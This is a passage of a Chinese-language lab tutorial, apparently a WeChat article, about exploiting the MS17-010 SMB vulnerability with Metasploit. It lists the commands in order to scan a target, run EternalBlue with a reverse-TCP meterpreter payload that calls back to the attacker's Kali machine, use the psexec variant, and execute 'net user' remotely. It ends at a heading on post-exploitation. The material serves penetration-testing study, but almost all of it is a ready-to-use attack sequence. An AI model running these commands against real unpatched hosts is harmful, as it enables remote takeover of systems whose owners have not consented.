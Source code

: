 1.获取  
ms017-010漏洞相关信息  
  
msfconsole  
  
search ms17-010  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRHbwOvCsD3YJ9cFTyv4EnhrEhyFQt5M1zzP27K52ic6kz5TYJsE9ZoVw/640?wx_fmt=png&from=appmsg "")  
  
2.漏洞扫描  
  
靶场IP地址：192.168.199.135  
  
use auxiliary/scanner/smb/smb_ms17_010  
  
set rhosts 192.168.199.135  
  
run  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRrnibJ0XTmzZgPV0W5ibcqCiaUnuAt6cfhMsXhWicRTqhFo8iaicIYAd5Aibqw/640?wx_fmt=png&from=appmsg "")  
  
3.利用漏洞获取Shell  
  
use exploit/windows/smb/ms17_010_eternalblue  # 加载攻击模块  
  
set RHOSTS 192.168.199.135                    # 目标IP  
  
set LHOST 192.168.199.128                     # Kali攻击机IP（接收反弹Shell）  
  
set payload windows/x64/meterpreter/reverse_tcp  # 设置Payload（推荐x64）  
  
run                                           # 执行攻击  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRBxM5M4RmtDdibLe3rE23K2hO0hyWLc8et0TCWicb8MrCO7FbY1wPbfqA/640?wx_fmt=png&from=appmsg "")  
  
4.其他可利用  
  
（1）使用psexec模块  
  
use exploit/windows/smb/ms17_010_psexec  
  
set RHOSTS 192.168.199.135  
  
run  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRibYXAicbmPiciaAGnwT4tTCa2clliaaahiad2k93ntA9s6OrfDCv8zJH2dSQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRXYen1nN9dZ79mONqUmibPUqScK6l56R7ghbwL54v05Vab1gu1CmiaLsQ/640?wx_fmt=png&from=appmsg "")  
  
（2）直接执行命令  
  
use auxiliary/admin/smb/ms17_010_command  
  
set RHOSTS 192.168.199.135  
  
set COMMAND net user  
  
show options  
  
run  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRUz6LvUzFlDqplmyRRWiaSibCTg5YzsDVjwVObXfBgR6fqsaFbAUP5QLQ/640?wx_fmt=png&from=appmsg "")  
### 1.3.2利用ms17-010后渗透  
  
